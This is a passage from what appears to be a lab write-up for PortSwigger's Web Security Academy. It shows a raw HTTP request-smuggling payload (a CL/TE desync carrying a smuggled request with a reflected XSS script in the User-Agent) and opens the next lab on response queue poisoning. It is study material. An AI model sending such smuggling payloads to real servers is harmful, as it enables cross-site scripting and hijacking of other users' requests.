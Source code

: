 I had to add the Content-Length and at least one character:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/18.png)

```
POST / HTTP/1.1
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 120

0

GET /post?postId=6 HTTP/1.1
User-Agent: useragent"><script>alert(1)</script><a href="/test
Content-Length: 3

a
```

11 Response queue poisoning via H2.TE request smuggling
=======================================================

This lab is vulnerable to request smuggling because the front-end server
downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user carlos by using response queue poisoning to
break into the admin panel at /admin. An admin user will log in approximately
every 15 seconds.
